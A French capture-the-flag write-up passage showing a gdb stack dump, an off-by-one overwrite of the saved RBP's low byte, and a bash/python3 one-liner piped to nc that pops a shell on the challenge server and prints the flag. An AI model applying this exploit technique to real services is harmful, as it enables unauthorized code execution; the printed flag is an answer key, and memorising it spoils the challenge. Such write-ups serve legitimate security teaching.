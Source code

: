
En rajoutant 5 * 'A' à la fin de notre input :

```gdb-peda$ x/50gx $rsp
0x7fffffffde50: 0x00007ffff7dd38c0      0x00007fffffffdf00
0x7fffffffde60: 0x7a7a7a7a7a7a7a7a      0x7a7a7a7a7a7a7a7a
0x7fffffffde70: 0x7a7a7a7a7a7a7a7a      0x7a7a7a7a7a7a7a7a
0x7fffffffde80: 0x7a7a7a7a7a7a7a7a      0x7a7a7a7a7a7a7a7a
0x7fffffffde90: 0x7a7a7a7a7a7a7a7a      0x7a7a7a7a7a7a7a7a
0x7fffffffdea0: 0x7a7a7a7a7a7a7a7a      0x7a7a7a7a7a7a7a7a
0x7fffffffdeb0: 0x7a7a7a7a7a7a7a7a      0x7a7a7a7a7a7a7a7a
0x7fffffffdec0: 0x7a7a7a7a7a7a7a7a      0x7a7a7a7a7a7a7a7a
0x7fffffffded0: 0x7a7a7a7a7a7a7a7a      0x7a7a7a7a7a7a7a7a
0x7fffffffdee0: 0x7a7a7a7a7a7a7a7a      0x414141417a7a7a7a
0x7fffffffdef0: 0x00007fffffffdf41      0x0000000000401213
```

Effectivement, le 5e 'A' vient écraser le LSB du saved $rbp.
Si, on continue le flow d'exécution, nous retournons bien dans le `main`, puis le programme crash en quittant `main`.

En regardant les pointeurs : `RBP: 0x3838383838383838 ('88888888')`
Tiens, `0x00007fffffffdf41` pointe donc dans notre buffer :)
Si on écrase le LSB du saved RBP avec 0x00 on aura :  0x7fffffffdf00 -> 0x4242424242424242

### Exploitation

Dans le premier buffer on écrit l'adresse de `shell()`
Dans le deuxième des 0x00 pour que le xor ne change rien
Et pour écraser le LSB du saved RBP.


```#!/usr/bin/env bash
(python3 -c "print('\x42\x11\x40\x00\x00\x00\x00\x00' * 16 + '\x00' * 145)";cat ;) | nc challenges.france-cybersecurity-challenge.fr 2053
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls
flag.txt
xoraas
cat flag.txt
FCSC{0d6c81576d1465a876422910769e79af287c9e73254112572737383039194f5d}

```
